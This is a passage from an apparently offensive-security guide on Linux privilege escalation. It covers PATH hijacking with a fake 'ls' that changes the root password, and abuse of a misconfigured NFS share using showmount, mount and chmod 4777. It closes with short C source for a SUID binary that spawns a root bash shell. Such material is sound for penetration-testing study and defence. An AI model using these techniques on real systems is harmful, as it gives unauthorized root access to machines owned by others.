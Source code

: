 If an attacker knows that a user has sudo privileges to change passwords \(including root\), they can place a fake program in a commonly-visited directory. For example, they might place a program called `ls` in a folder that changes the root password when the `ls` command is executed there.

Having `.` in your PATH can also help the attacker if exploiting programs that make system\(\), execvp\(\), or execlp\(\) calls to programs, if they do not specify the full path to the program the attacker can place a program into a directory in the PATH, so that program is run instead - this works because programmers just expect that the program they mean to run will be in the PATH.

To add `.` to your path:

```text
PATH=.:${PATH}
export PATH
```

#### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges if it's misconfigured.

Check if the target machine has any NFS shares:

```text
showmount -e [host]
```

If it does, then mount it to your filesystem:

```text
mount [host]:/ /tmp/
```

If that succeeds then you can go to `/tmp/share` and look for interesting files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says root has created the file, then you can create a file and set it with suid-permission from your attacking machine, then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the SUID-bit on it, like this:

```text
bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
